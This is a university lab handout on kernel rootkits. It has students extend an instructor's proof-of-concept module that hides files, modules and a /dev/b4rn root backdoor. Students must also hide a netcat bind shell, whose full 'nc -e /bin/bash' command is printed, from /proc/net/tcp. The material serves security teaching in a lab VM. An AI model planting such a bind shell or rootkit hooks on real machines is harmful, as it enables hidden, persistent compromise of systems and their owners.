 ```yaml
---
title: Kernel Backdoors and Rootkits
parent: System Security
nav_order: 2
summary: Rootkits
---
```


# Lab 9: Kernel Rootkits

This lab will introduce you to both kernel module programming and to kernel
backdoors and rootkits. You will take an existing kernel rootkit written by your instructor
and extend it.

**Due Date: Monday 03/07/22 before class**

## Lab Description
This lab will guide you through kernel rootkit construction. More details are
in the code's repo and below, but here is the gist. The rootkit already is
written to:

- Hide our rootkit source and object files from the filesystem (`b4rnd00r.{c,ko}`)
- Hide our rootkit from the kernel's list of loaded modules (by scrubbing `/proc/modules`)
- Hide our parasite library from the previous lab, `libtest.so.1.0`, (by scrubbing `/proc/PID/maps`)
- Create a local backdoor to get us root by exposing a device file at
  `/dev/b4rn`. When a user writes a [special string](https://www.youtube.com/watch?v=7R0mD3uWk5c) to that file, the user will
  become root.
- Hiding the backdoor character device file (`/dev/b4rn`).

### Getting the Code
You'll want to use the SEED 16.04 Ubuntu VM for this lab. In the VM, you can
get the code for this lab by cloning your instructor's repo:

```bash
git clone https://github.com/khale/kernel-rootkit-poc
```
Make sure to go through the `README` in the repo. The SEED VM should have everything necessary to load the rootkit.


### Task 1: The code
Understand the code. You should realize that the kernel module's entry point
(`b4rn_init()`) is invoked after the module is loaded by the kernel (e.g., by
`insmod` or `modprobe`). Start there and read comments carefully.

### Task 2: The Backdoor

Could an attacker use the backdoor exposed by the rootkit to remotely get
access? Explain why or why not.

Realize that this is a pretty rudimentary backdoor. There are certainly more stealthy ways to do this (e.g., so we don't create an unwanted device file on the system). Can you think of any?

By the way, there have been [nefarious attempts](https://lwn.net/Articles/57135/) to backdoor the kernel itself,
though they were unsuccessful. This isn't limited by any means to kernel space.
The NSA is suspected to have [backdoored](https://miracl.com/blog/backdoors-in-nist-elliptic-curves/) a standard altorithm widely used for
encryption. Your instructor's [favorite example of a backdoor](https://www.win.tue.nl/~aeb/linux/hh/thompson/trust.html) was one injected
by a C compiler into the UNIX login program, devised by the [UNIX man himself](https://en.wikipedia.org/wiki/Ken_Thompson).
Definitely worth a read.


### Task 3: Hiding in Plain Sight

Explain why we must (1) use function pointers and `kallsyms_*()` functions to call certain routines and (2) manipulate `cr0` and page protections to install our function overrides.

Suppose I wanted to make it very hard for a system administrator to remove my rootkit from the system. What are some things I could do to prevent that? (Hint: there is a `reboot()` system call)

### Task 4: Remote Backdoor

For this task you'll be extending b4rnd00r to hide a remote backdoor (i.e.,
a bindshell running on the system). First run a bind shell like so:

```bash
nohup nc -nvlp 9474 -e /bin/bash >/dev/null 2>&1 &
```

This listens on port 9474, and when a client connects it will spawn a shell and
send output back out over the network socket. The `nohup` command prevents the
netcat program from exiting after we log out of the system (which we would
probably do after we've owned a machine and set up the backdoor). The
redirection just silences output on the server side.

If you've got bridged networking set up for your VM, you should be able to
access this bind shell as follows from your **host** machine:

```bash
nc <VM-IP> 9474
```

You can access it with NAT networking as well, but you'll have to forward the
9474 port with your hypervisor. It's probably just easier to use bridged
networking. Other than the `nc` process itself, the listening socket can be seen
by an auditor pretty easily by using `netstat`:

```
$ netstat -tl
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State      
    tcp        0      0 cato:domain             0.0.0.0:*               LISTEN     
    tcp        0      0 localhost:ipp           0.0.0.0:*               LISTEN     
    tcp        0      0 0.0.0.0:9474            0.0.0.0:*               LISTEN     
    tcp6       0      0 localhost:ipp           [::]:*                  LISTEN     
    tcp6       0      0 [::]:9474               [::]:*                  LISTEN
```


This is no good if we're trying to be stealthy. We can pretty much guess that
this information is coming from the kernel, and almost certainly from `/proc`
somewhere, and that `netstat` is really just sugar coating the kernel's output.
We can do some digging to find out exactly where:

```
 $ strace netstat -tl 2>&1 | grep "^open" | grep "proc"
    openat(AT_FDCWD, "/proc/net/tcp", O_RDONLY) = 3
    openat(AT_FDCWD, "/proc/net/tcp6", O_RDONLY) = 3
```

Sure enough, `netstat` is really just a wrapper around the `/proc` interface. Let's
see the raw information straight from the source (the kernel):

```
$ cat /proc/net/tcp
     sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode
       0: 017AA8C0:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 34934 1 000000007060ba94 100 0 0 10 0 
       1: 0100007F:0277 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 30174 1 00000000d07a82df 100 0 0 10 0
       2: 00000000:2502 00000000:0000 0A 00000000:00000000 00:00000000 00000000  1000        0 59441 1 000000003a4d11ec 100 0 0 10 0
```

You can see why `netstat` exists now. This output is pretty opaque. If we
realize that 9474 is actually 0x2502, however, we can pretty easily identify
our bind shell. This gives us a hint on how to hide our connection then,
because we really just need to scrub this output to remove that line in our
rootkit. This is your task!

Some hints:
- You should be able to use the same `seq_file` technique used for the maps file.
- Network sockets are also exposed in `/proc`. You will focus on TCP (IPv4). You will thus need to take a look at `/proc/net/tcp` (or `/proc/self/net/tcp`).
- You'll want to see the `tcp4_seq_show()` [function](https://elixir.bootlin.com/linux/v4.8/source/net/ipv4/tcp_ipv4.c#L2257).
- When you override the seq file, you will need to use the `struct inet_sock` [structure](https://elixir.bootlin.com/linux/v4.8/source/include/net/sock.h#L306) (which you can derive from the `v` pointer in your seq handler). Given a `struct sock * sk`, you will need to extract the port number from the socket structure like so: `ntohs(inet_sk(sk)->inet_sport)`.
- You don't need to use `unprotect_page()` and `protect_page()` like was done for the maps file.
- Make sure not to dereference the special start socket (if `v==SEQ_START_TOKEN`, just pass it along to the normal seq function).

<!--
- The proc dirs for `/proc/net` are organized in a red black tree. See [here](https://lwn.net/Articles/184495/) and understand the `init_net` struct from the `net/tcp.h` [header](https://elixir.bootlin.com/linux/v4.8/source/include/net/tcp.h) and its `proc_net` member field. You will want to use [helper functions](https://elixir.bootlin.com/linux/v4.8/source/include/linux/rbtree.h#L69) provided by Linux like `rb_first()`, `rb_last()`, `rb_entry()`, `struct proc_dir_entry` etc.
--> 

## Handin
Please write your lab report according to the description. Please also list the
important code snippets followed by your explanation. You will not receive
credit if you simply attach code without any explanation. Upload your answers
as a PDF to blackboard


## Suggested Reading
- Intro to [Linux kernel modules](https://tldp.org/HOWTO/Module-HOWTO/x73.html)
- Linux VFS, proc, and root filesystems [article](Linux VFS, proc, and root filesystems article)
- Kernel documentation on [seq files](https://www.kernel.org/doc/Documentation/filesystems/seq_file.txt)
- Another [rootkit example](https://0x00sec.org/t/hiding-with-a-linux-rootkit/4532)
- [Article](https://medium.com/@PenTest_duck/bind-vs-reverse-vs-encrypted-shells-what-should-you-use-6ead1d947aa9) on bind shells, reverse
shells, etc.
- [Sysdig](https://github.com/draios/sysdig)
- [Looking back at Multics security](https://hack.org/mc/texts/classic-multics.pdf)

